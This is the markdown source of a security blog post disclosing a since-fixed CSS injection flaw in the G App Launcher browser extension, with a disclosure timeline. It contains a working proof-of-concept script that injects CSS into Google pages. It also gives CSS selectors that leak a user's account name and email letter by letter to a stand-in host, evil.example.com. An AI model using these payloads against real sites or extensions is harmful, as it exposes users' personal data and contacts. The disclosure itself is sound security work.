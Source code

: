```yaml
---
title: "Having fun with CSS injection in a browser extension"
date: 2021-06-28T13:06:18Z
description: G App Launcher browser extension allowed any website to inject CSS code into Google pages. This could be used not merely for visual changes but for data exfiltration as well.
categories:
- security
- add-ons
---
```


Normally, CSS injection vulnerabilities are fairly boring. With some luck, you can use them to assist a clickjacking attack. That is, unless the vulnerable party is a browser extension, and it lets you inject CSS code into high profile properties such as Google’s. I’ve now had some fun playing with this scenario, courtesy of G App Launcher browser extension.

{{< img src="css_injection.png" alt="Website malicious.com injects CSS code via G App Launcher browser extension into google.com website. As a result, the malicious website displays the message: Your name is John Smith, john@example.com" width="600" >}}
<em>
  Image credits:
  <a href="https://searchfox.org/mozilla-central/source/" rel="nofollow">Mozilla</a>,
  <a href="https://apps.jeurissen.co/g-app-launcher" rel="nofollow">G App Launcher</a>
</em>
{{< /img >}}

The vulnerability has been resolved in G App Launcher 23.6.1 on the same day as I reported it. Version 23.6.5 then added more changes to further reduce the attack surface. This was a top notch communication experience, many thanks to Carlos Jeurissen!

{{< toc >}}

## The issue

As so often, the issue here was a `message` event listener (something that browser vendors [could address](https://bugs.chromium.org/p/chromium/issues/detail?id=1188556)). In G App Launcher 23.6.0 it looked as follows (variable names reconstructed for clarity):

{{< highlight js >}}
window.addEventListener("message", function (event) {
  if (event.data) {
    if ("hide" === event.data.newGbwaConfig) {
      overlay.classList.add("💙-hgbwa");
      if (button && isButtonVisible())
        button.click();
    }
    if ("launcheronly" === event.data.newGbwaConfig)
      overlay.classList.remove("💙-cgbwa");
    if (event.data.algClose)
      closeOverlay();
    if (event.data.algHeight)
      setHeight(event.data.algHeight);
  }
}, true);
{{< /highlight >}}

This event handler would accept commands from any website. Most of these commands merely control visibility of the overlay without taking any data from the message into account. The only interesting command is `algHeight`. Looking at the `setHeight()` function, the relevant part is this:

{{< highlight js >}}
var element = document.createElement("style");
element.textContent = ".💙-c {height:" + (height + 14) + "px !important;}";
{{< /highlight >}}

If `height` here is a string, the arithmetical addition turns into string concatenation. So a value like `0}body{display:none}.dummy{` will inject arbitrary styles (here rendering the entire document invisible).

Last question before we turn to exploitation: where is this event handler active? The content script is injected for Google domains only. And there is an additional check in the code which is excluding some sites:

{{< highlight js >}}
if (!(origin.startsWith("https://ogs.google.") ||
    origin.startsWith("https://accounts.google.") ||
    origin.startsWith("https://cello.client-channel.google."))) {
{{< /highlight >}}

Google Accounts sign-in site is excluded, too bad. But all other Google properties can be exploited. There is one more check disabling this functionality on Safari, so it’s the only browser not affected.

## Messing with the content

Most Google websites protect against clickjacking attacks by disallowing framing. This means that the attackers would have to open a Google website in a new tab. This also has the advantage of displaying a trusted address in the address bar.

Still, what’s the worst that could happen? The attackers will hide some parts of the content and rearrange others? This doesn’t sound like a big issue. But CSS can also modify the content displayed. Consider the following code for example:

{{< highlight js >}}
document.body.onclick = () =>
{
  let wnd = window.open("https://www.google.com/search?q=google", "_blank");
  setInterval(() =>
  {
    wnd.postMessage({algHeight: `0;}
      h3::before
      {
        content: "Hacked!";
        font-size: 20px !important;
      }
      h3
      {
        font-size: 0 !important;
      }
      dummy{`}, "*");
  }, 0);
}
{{< /highlight >}}

When the user clicks somewhere, this will open Google Search. The attacking page will immediately start posting a message to the G App Launcher extension, making it add some CSS code to the search page. And then the search results will look like that:

{{< img src="google_hacked.png" width="876" alt="Google search result page for the search 'google' with the titles of all search results replaced by 'Hacked!'" />}}

This might be enough to convince somebody that Google has indeed been hacked. Similarly, attackers might for example display a Bitcoin scam, with an official Google domain lending it credibility.

## Exfiltrating data

But that’s not the end of it. Google websites know a lot about you. For example, there is the following element:

{{< highlight html >}}
<a class="…" aria-label="Google Account: Wladimir Palant (me@example.com)">
{{< /highlight >}}

Using CSS only, it is possible to read out the value of this `aria-label` attribute. As far as I am aware, this attack has been first publicized by Eduardo Vela in 2008, he built his [CSS Attribute Reader](https://sirdarckcat.blogspot.com/2008/10/about-css-attacks.html) as proof-of-concept. Here the attacking website would inject the following CSS code into a Google page:

{{< highlight css >}}
a[aria-label^="Google Account: a"]
{
  background-image: url("https://evil.example.com/?a");
}
a[aria-label^="Google Account: A"]
{
  background-image: url("https://evil.example.com/?A");
}

…

a[aria-label^="Google Account: W"]
{
  background-image: url("https://evil.example.com/?W");
}

…

a[aria-label^="Google Account: z"]
{
  background-image: url("https://evil.example.com/?z");
}
a[aria-label^="Google Account: Z"]
{
  background-image: url("https://evil.example.com/?Z");
}
{{< /highlight >}}

The CSS code lists selectors for every possible first letter of the account name. For me, the selector `a[aria-label^="Google Account: W"]` will match the element and trigger a request to `https://evil.example.com/?W`. So the attacking website will learn that the first letter is `W` and send a new message to the page, injecting a new set of selectors:

{{< highlight css >}}
a[aria-label^="Google Account: Wa"]
{
  background-image: url("https://evil.example.com/?Wa");
}
a[aria-label^="Google Account: WA"]
{
  background-image: url("https://evil.example.com/?WA");
}

…

a[aria-label^="Google Account: Wl"]
{
  background-image: url("https://evil.example.com/?Wl");
}

…

a[aria-label^="Google Account: Wz"]
{
  background-image: url("https://evil.example.com/?Wz");
}
a[aria-label^="Google Account: WZ"]
{
  background-image: url("https://evil.example.com/?WZ");
}
{{< /highlight >}}

Now the selector `a[aria-label^="Google Account: Wl"]` will match the element and the website can start guessing the third letter. The process is repeated until the entire attribute value is known. That’s both my name and email address. And the attack is happening completely in the background while I am interacting with the page normally. There are no page reloads or anything else that would tip off users about the attack.

And that’s just an arbitrary Google website. A similar attack could be launched against Gmail for example to extract the names and email addresses of people you are communicating with. Given enough time, this attack could extract all your contacts.

How much time? With some optimizations: probably not too much. The main slowdown here is the request going out to a web server. That web server then has to communicate back to the attacking page so that it launches the next attack round. But modern browsers support [Service Workers](https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API/Using_Service_Workers), a mechanism allowing to handle such requests in client-side JavaScript code. So a service worker could receive the background image request and notify the attacking page, all that without producing any network traffic whatsoever.

## Timeline

* 2021-06-01: Notified G App Launcher author about the vulnerability via support email address.
* 2021-06-01: Received response that G App Launcher 23.6.1 has been released and is pending review by add-on stores.
* 2021-06-03: Received notification that the update is live on all add-on stores but Microsoft Edge.
* 2021-06-10: Received notification that G App Launcher 23.6.5 with further attack surface reduction is live on all add-on stores.
* 2021-06-14: Agreed on 2021-06-28 as final disclosure date.
